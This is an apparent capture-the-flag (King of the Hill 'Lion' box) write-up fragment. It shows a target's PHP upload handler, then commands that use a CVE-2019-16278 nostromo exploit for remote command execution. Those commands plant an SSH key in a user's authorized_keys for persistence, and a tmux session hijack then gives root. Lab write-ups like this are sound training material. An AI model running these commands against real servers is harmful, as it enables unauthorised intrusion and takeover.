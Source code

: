 ```
    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
        echo "Sorry, your file was not uploaded.";
    } else {
        // If everything is ok, try to upload file
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
            echo "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded.";
            // Process or store the uploaded file securely
            // Do not execute the file directly
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
    }
}
?>

<!DOCTYPE html>
<html>
<body>
    <center><br />
        <img src="image.png" style="width:300px;height:300px;"><br /><br />
        <form action="index.php" method="post" enctype="multipart/form-data">
            Select file to upload:
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>
    </center>
</body>
</html>

root@lion:/var/www/html/upload#
```

`gloria` via `:8080`, which runs nostromo 1.9.6 webserver vulnerable to RCE Nostromo RCE In Lion Machine. CVE-2019-16278
```bash
ss -anlpt|grep 8080
/var/nostromo/htdocs# python3 -m http.server 8080 -b $(ip a | grep "tun0 10" | awk '{print $2}' | cut -d/ -f1)

python2 cve2019-16278.py <KOTH MACHINE IP> 8080 "whoami"

python2 cve2019-16278.py <KOTH IP> 8080 "mkdir /home/gloria/.ssh; echo '<YOUR *.pub file data>' > /home/gloria/.ssh/authorized_keys"

ssh -i sshkey gloria@<KOTH BOX IP> -p 1337
```

#### Privilege Escalation

All users can seemingly hijack a `tmux` session used by root: `export TMUX=/.dev/session,1234,0` then just `tmux` to get a root session; best used with gloria after sshing in.
```

```
